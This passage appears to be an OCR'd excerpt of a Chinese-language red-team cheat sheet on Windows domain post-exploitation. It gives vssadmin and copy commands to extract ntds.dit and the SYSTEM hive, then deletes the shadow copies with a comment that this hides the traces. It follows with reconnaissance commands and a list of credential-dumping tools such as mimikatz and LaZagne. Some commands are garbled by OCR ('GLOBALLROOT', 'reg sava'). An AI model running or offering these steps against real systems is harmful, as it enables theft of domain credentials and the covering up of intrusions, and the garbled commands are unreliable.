 

管理员权限执行 -
vssadmin create shadow /for=C: -
利用卷影副本卷名拷贝ntds.dit文件与用注册表导出system.hive -
-
copy \\\\?\\GLOBALLROOT\\Device\\xxxxxxxxxx\\windows\\ntds\\ntds.dit C:\\ntds.dit reg sava hklm\\system system.hive -
//导出system.hive文件到注册表 -
-
vssadmin delete shadows /for=C: /quiet //删除卷影，隐藏痕迹-

[](https://0range-x.github.io/2021/11/22/CVE-2020-1472/)[CVE-2020-1472的分析与复现 (0range-x.github.io)](https://0range-x.github.io/2021/11/22/CVE-2020-1472/#vssadmin%E5%8D%B7%E5%BD%B1%E6%8B%B7%E8%B4%9D)

### dpapi解密

# 2.内网信息收集

## 本机信息收集

1、用户列表 net user /domain-
windows用户列表 分析邮件用户，内网\[域\]邮件用户，通常就是内网\[域\]用户-
-
2.进程列表 tasklist /svc-
分析杀毒软件/安全监控工具等 邮件客户端 VPN ftp等-
-
3.服务列表 tasklist /svc-
与安全防范工具有关服务\[判断是否可以手动开关等\] 存在问题的服务\[权限/漏洞\]-
-
4.端口列表 netstat -ano-
开放端口对应的常见服务/应用程序\[匿名/权限/漏洞等\] 利用端口进行信息收集-
-
5.补丁列表 systeminfo-
分析 Windows 补丁 第三方软件\[Java/Oracle/Flash 等\]漏洞-
-
6.本机共享 smbclient -L ip -
 net user \\\\ip\\c$-
本机共享列表/访问权限 本机访问的域共享/访问权限-
-
7.本用户习惯分析-
历史记录 收藏夹 文档等-

### 8.获取当前用户密码

#### Windows

*   [mimikatz](https://github.com/gentilkiwi/mimikatz)
*   [Invoke-WCMDump](https://github.com/peewpw/Invoke-WCMDump)
*   [mimiDbg](https://github.com/giMini/mimiDbg)
*   [LaZagne](https://github.com/AlessandroZ/LaZagne)
*   [NirLauncher )](http://launcher.nirsoft.net/downloads/)
*   [quarkspwdump](https://github.com/quarkslab/quarkspwdump)
